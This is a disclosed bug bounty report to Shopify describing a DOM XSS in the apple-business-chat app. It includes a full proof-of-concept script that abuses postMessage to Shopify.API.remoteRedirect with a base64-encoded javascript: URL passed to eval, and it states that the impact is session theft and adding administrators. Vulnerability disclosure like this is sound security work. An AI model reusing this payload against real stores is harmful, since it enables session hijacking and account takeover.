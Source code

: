 # ██████ DOM XSS via Shopify.API.remoteRedirect

## Report Details
- **Report ID**: 646505
- **URL**: https://hackerone.com/reports/646505
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-07-17T04:07:20.510Z
- **Disclosed**: 2019-09-15T07:14:27.583Z

## Reporter
- **Username**: yxw21
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi, team.
I found a dom xss on the apple-business-chat app that seems to be referring to a vulnerable js file.
For users who have installed this app, just let him use the theme code I provided to complete xss.
Modify the theme code to the following payload
```
<script>
	  function attack(){
	    let ctx=window.open('https://apple-business-chat-commerce.shopifycloud.com'),interval;
	    let payload=btoa(`window.opener.postMessage('success',location.origin);alert(document.domain)`);
	    interval=setInterval(()=>{
	        ctx && ctx.postMessage({
        		"message":"Shopify.API.remoteRedirect",
        		"data":{
        			"location":`javascript:eval(atob('${payload}'))`
        		}
	        },location.origin);
	    },500);
	    window.onmessage=(e)=>{
	    	e.data==="success"&&(
	    		console.log('attack success'),
	    		window.onmessage=null,
	    		clearInterval(interval)
	    	);
	    };
	  }
	  attack();
	</script>
	<a href="javascript:attack()" style="display:block;text-align:center;width:100%;height:300px;line-height:300px;background:#000;color:#fff;">click me start attack</a>
```
As shown below
{F531015}
Then click on the store front page to trigger
{F531016}

*█████*

## Impact

Steal session information, add administrators, etc.

## Attachments
- 2.png
- 1.png
